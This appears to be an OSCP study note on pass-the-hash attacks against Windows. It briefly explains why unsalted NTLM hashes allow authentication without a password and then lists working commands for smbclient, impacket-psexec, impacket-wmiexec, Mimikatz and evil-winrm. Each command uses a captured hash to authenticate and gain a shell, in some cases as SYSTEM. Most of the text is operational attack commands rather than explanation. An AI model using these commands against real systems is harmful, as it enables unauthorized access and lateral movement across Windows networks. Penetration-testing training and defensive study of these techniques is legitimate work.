 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/h-password-attacks/6-pass-the-hash/"}
---
```


- PtH is a techique where a valid combination of username and a NTLM hash will authenticate a user. This is without a plaintext password.
- It is possible because NTLM/LM hashes are not salted and remain static between sessions.
- They can even be used to authenticate to another machine with the same user and password.
- Note: The targeted user most often needs to be Administrator, or be configured in a certain way to obtain successful code execution. This is a thing since Windows Vista.
- PtH can be performed against protocols that support authentication with NTLM hashes, such as: SMB, RDP, WinRM.
- Tools which can perform PtH include: smbclient, CrackMapExec, psexec.py (Impacket), and Mimikatz.

------------

### PtH Attack with SMBClient:
```bash
smbclient \\\\192.168.X.X\\secrets -U Administrator --pw-nt-hash <hash>
```

------------

### PtH NT_AUTHORITY Shell with PSExec:
- PSExec searches for a writable share and uploads an executable to it. The executable then registers as a Windows service and starts running, resulting in a shell always as SYSTEM.
- If not command is specified to be run in the end a cmd-shell will spawn instead.
- Hash arguments are read as LMHash:NTHash. If only one of them is used fill the other with 32 0's.
- Example which will spawn a shell from a NTLM hash:
```powershell
impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.X.X
```

----------
### PtH User Shell with WMIExec:
- Obtains a shell as the user used for authentication and not SYSTEM.
- Example:
```powershell
impacket-wmiexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.X.X
```

------------
### PtH with Mimikatz:
```
mimikatz sekurlsa::pth /user:Administrator /domain:. /ntlm:… /run:”powershell -w hidden”

Alt.
mimikatz sekurlsa::pth /user:Administrator /domain:. /ntlm:…
.\PsExec.exe \\172.23.1.100 cmd.exe
```

-------------
### PtH with Evil-WinRM:
``` bash
evil-winrm -i 192.168.X.X -u <user> -H <ntlm-hash>
```
